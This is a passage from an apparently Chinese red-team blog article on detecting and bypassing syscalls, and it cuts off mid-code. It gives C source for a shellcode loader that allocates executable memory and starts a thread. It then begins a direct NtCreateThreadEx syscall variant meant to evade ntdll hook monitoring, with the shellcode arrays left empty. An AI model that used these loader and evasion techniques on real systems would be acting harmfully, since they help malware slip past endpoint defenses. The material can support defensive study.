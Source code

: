 #  syscall的检测与绕过

原创 ziansec  [ 红队蓝军 ](javascript:void\(0\);)

**红队蓝军** ![]()

微信号 Xx_Security

功能介绍 一群热爱网络安全的人，知其黑，守其白。不限于红蓝对抗，web，内网，二进制。

____

___发表于_

收录于合集

#syscall 2 个

#红队 41 个

## 普通调用

    
    
    #include <iostream>  
    #include <windows.h>  
      
    int main()  
    {  
     unsigned char shellcode[] = "";  
        void* exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT,  
            PAGE_EXECUTE_READWRITE);  
        memcpy(exec, shellcode, sizeof shellcode);  
        CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)exec, 0, 0, NULL);  
        Sleep(1000);  
        return 0;  
    }  
    

![](https://gitee.com/fuli009/images/raw/master/public/20230104154228.png)

此时的调用是非常明显的，能看到Ntdll中NtCreateThread的调用。

## syscall调用

    
    
    #include <iostream>  
    #include <Windows.h>  
    EXTERN_C NTSTATUS NtCreateThreadEx  
    (  
     OUT PHANDLE hThread,  
     IN ACCESS_MASK DesiredAccess,  
     IN PVOID ObjectAttributes,  
     IN HANDLE ProcessHandle,  
     IN PVOID lpStartAddress,  
     IN PVOID lpParameter,  
     IN ULONG Flags,  
     IN SIZE_T StackZeroBits,  
     IN SIZE_T SizeOfStackCommit,  
     IN SIZE_T SizeOfStackReserve,  
     OUT PVOID lpBytesBuffer  
    );  
    int main()  
    {  
     HANDLE pHandle = NULL;  
     HANDLE tHandle = NULL;  
     unsigned char shellcode[] = "";  